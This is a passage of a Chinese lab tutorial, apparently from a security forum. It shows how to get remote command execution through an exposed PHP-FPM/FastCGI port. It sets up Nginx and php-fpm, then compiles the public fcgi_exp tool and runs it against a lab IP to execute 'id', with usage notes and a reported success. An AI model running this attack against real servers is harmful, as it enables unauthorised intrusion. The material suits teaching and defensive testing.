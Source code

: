 重新启动Nginx

```bash
sudo systemctl restart nginx
```

然后检查nginx是否正确启动 `systemctl status nginx`：

![image-20210430211840986](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-958446d81700cd6c2583f8feecdae90bd2201304.png)

检查php-fpm是否正确启动 `ps -elf | grep php-fpm`

![image-20210430211939856](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-be84d0eeb07230f74806b40fc290460c0b6a3869.png)

这里就可以看出上面所说的存在一个master进程和多个worker进程。

下面将 `/var/www/html` 目录下的文件删除，新建一个index.php，内容可以写上 `<?php phpinfo(); ?>` 用来检查各项是否正常运行（如果页面为空，查看这篇[文章](https://blog.csdn.net/feiniao8651/article/details/52768911)解决）：

![image-20210430212653572](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4960b687726c34c527dc239ef908199707f47cc4.png)

其中 Sever API 处和上图一样说明运行正确。下面我们开始攻击。

### 利用 fcgi\_exp.go 攻击

- 项目地址：<https://github.com/wofeiwo/webcgi-exploits>

将该项目下载下来后，进入到 webcgi-exploits/php/Fastcgi，新建一个 fcgiclient 目录，将 fcgiclient.go 放入新建的 fcgiclient 目录中：

![image-20210501203013815](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8c81e36d551be8c2b25590e5d6b86a8ff7ef98f3.png)

然后安装 go 环境进行编译：

```bash
go build fcgi_exp.go                    # 编译fcgi_exp.go
```

然后直接运行可以看到 fcgi\_exp 的使用方法：

![image-20210501203132859](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-171ff0e80d1f0bb80870a72a9ccb0b9bfb420316.png)

使用如下命令进行测试

```bash
./fcgi_exp system 192.168.43.82 9000 /var/www/html/index.php "id"
```

- system：要使用的PHP函数
- 192.168.43.82：目标机IP
- 9000：目标机 fpm 端口
- /var/www/html/index.php：已知的位于目标机上的PHP文件
- id：要执行的系统命令

如下图所示，成功执行系统命令，利用成功：

![image-20210501203235683](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6dd6e7ad9c6d6f3403cdce3404ee647de1f3b2aa.png)

### 利用 phith0n 大神的 fpm.py
